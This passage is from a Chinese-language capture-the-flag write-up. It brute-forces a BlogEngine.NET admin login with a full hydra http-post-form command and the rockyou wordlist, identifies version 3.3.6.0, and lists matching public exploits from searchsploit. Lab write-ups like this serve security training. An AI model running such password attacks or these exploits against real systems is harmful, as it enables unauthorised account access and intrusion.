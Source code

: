 尝试`admin/admin`登录，不对。但是提示我们登录后更改密码，所以大概率是admin的账号，但是密码修改了。

这里可以用burp对password进行单字段爆破：



但是这里是希望我们用hydra去进行爆破的，那就hydra整一次。

burp提取下需要使用的数据：

![image-20240307195138161](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071951203.png)

```shell
# hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form "<Login Page>:<Request Body>:<Error Message>"

┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.62.181 http-post-form "/Account/login.aspx:__VIEWSTATE=4A%2FulX%2FkrreHn9c8sH3xUEppn5lC%2BvPRw8U%2F1b55wpRYFUyj4ioxPOlcaWuYjqezbyHe1o7BJdV4wPX4gml0SACd4zthGt9Kd91upXcwjUI8w7pNH4EVgtVg%2FK4PKqgnOg6ZKWerzWazWS9fMWRZKDW3SvyxhSNkQ1kLqvxqlqAnBD%2B3705ZnEyiQ93Sr9RRbGcSY1vV6R4ORM9HcyrE5NLqH906F262FKRSUCQHNo9YQtjmI6tiVFe9W%2FC%2BErobCXipKr%2F6VzFravYeEJL01qqHW8wYCkKJ7uj3UtpOHi9A4cqNWkurOyueACksOhN0wlTNcvB%2BayI2g%2Bi96TSNZUshMFqTpHbRNnlMdZaSI0dVXdQW&__EVENTVALIDATION=J%2Flh8MFMXEyX%2FPFex0iFKvuSzQlOQm6HhB6dgr6vF%2FiPCa3aSTIXIDEC1qxC2xpYT0EkTyJpkU%2FlLHS7g9irDPAIs7Oi%2FAdfHs%2BFHrF19qXH%2FWZzn27lB5n3e9TPEBJEG%2F9o57mFirf9eqiy5rJh1g%2But1b6ua8ppMz4PWj9jQtr0dot&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

速度看个人机器，我的时间久一点。

![image-20240307195416220](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403071954259.png)

## Compromise the machine

### Now you have logged into the website, are you able to identify the version of the BlogEngine?

这个看下about就可以：3.3.6.0

### What is the CVE?

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ searchsploit blogengine.net
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 1.4 - 'search.aspx' Cross-Site Scripting                                                                | asp/webapps/32874.txt
BlogEngine.NET 1.6 - Directory Traversal / Information Disclosure                                                      | asp/webapps/35168.txt
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                     | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                             | aspx/webapps/47014.py
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                     | aspx/webapps/46353.cs
----------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```